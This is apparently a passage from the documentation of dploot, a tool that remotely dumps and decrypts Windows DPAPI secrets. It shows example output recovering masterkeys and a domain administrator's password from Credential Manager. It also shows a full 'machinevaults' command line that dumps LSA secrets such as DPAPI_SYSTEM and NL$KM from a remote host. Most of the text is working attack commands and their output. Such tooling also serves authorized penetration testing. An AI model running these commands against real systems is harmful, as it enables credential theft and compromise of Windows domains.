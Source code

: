 ```text
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\9a270191-3f43-46d1-9935-5892dca2a9a2
[*] Found SYSTEM user MasterKey: \\192.168.57.5\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\e85c4ab7-65d3-45df-9abe-829c2ead1c5f
{07e6e8d6-7eae-4780-9aac-641818ddd9bb}:ddb9fa17d4e9ab12[...]
{a87bcad8-5ed9-4f09-a9f7-34d77e20d0d4}:e4661cd36f07bb1f[...]
{d03a0e3b-b616-4a29-8795-9ca09960de35}:a45fdd01699bfbc5[...]
{69b3f620-eca1-45c1-a003-f1d0a8598c57}:2862216b21e96fa6[...]
{9a270191-3f43-46d1-9935-5892dca2a9a2}:d3cb43dd6645d26d[...]
{e85c4ab7-65d3-45df-9abe-829c2ead1c5f}:c2a118094fb7cf85[...]
[*] Found Credential Manager blob: \\192.168.57.5\C$\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
[*] Found Credential Manager blob: \\192.168.57.5\C$\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F408AEC20D1044EB4FCC8026E996F2C5
[CREDENTIAL]
LastWritten : 2022-05-06 15:51:53
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000002 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:batch=TaskScheduler:Task:{31424469-6CCD-4137-8DFF-541872FD3CBB}
Description :
Unknown     :
Username    : WAZA\Administrator
Unknown     : Password!123

[*] Found Credential Manager blob: \\192.168.57.5\C$\Windows\ServiceProfiles\LocalService\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
```

#### machinevaults

The **machinevaults** command will get any machine Vaults file found and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, otherwise dploot will dump DPAPI_SYSTEM LSA secret key in order to decrypt any machine masterkeys, and then decrypt any found encrypted DPAPI Vaults blob.

```text
$ dploot machinevaults waza.local/jsmith:Password#123@192.168.56.14 -debug
[*] Connected to 192.168.56.14 as waza.local\jsmith (admin)
[*] Triage SYSTEM masterkeys

[+] Service RemoteRegistry is already running
[+] Retrieving class info for JD
[+] Retrieving class info for Skew1
[+] Retrieving class info for GBG
[+] Retrieving class info for Data
[*] Target system bootKey: 0x274b1776d8fbf01c6ff3f42aef542cf1
[+] Saving remote SECURITY database
[*] Dumping LSA Secrets
[+] Decrypting LSA Key
[+] Looking into $MACHINE.ACC
[*] $MACHINE.ACC
[+] Looking into DPAPI_SYSTEM
[*] DPAPI_SYSTEM
[+] Looking into NL$KM
[*] NL$KM
[*] Found SYSTEM system MasterKey: \\192.168.56.14\C$\Windows\System32\Microsoft\Protect\S-1-5-18\c1027a5b-0dcc-4237-af05-19839a94c12f
[*] Found SYSTEM system MasterKey: \\192.168.56.14\C$\Windows\System32\Microsoft\Protect\S-1-5-18\e1a73282-709b-4717-ace0-00eecb280fcc
[*] Found SYSTEM user MasterKey: \\192.168.56.14\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\6fbe7c89-9810-4ce3-b841-f0f1dd8b46e6
[*] Found SYSTEM user MasterKey: \\192.168.56.14\C$\Windows\System32\Microsoft\Protect\S-1-5-18\User\750630e8-b603-4d43-941e-6f756073e511

```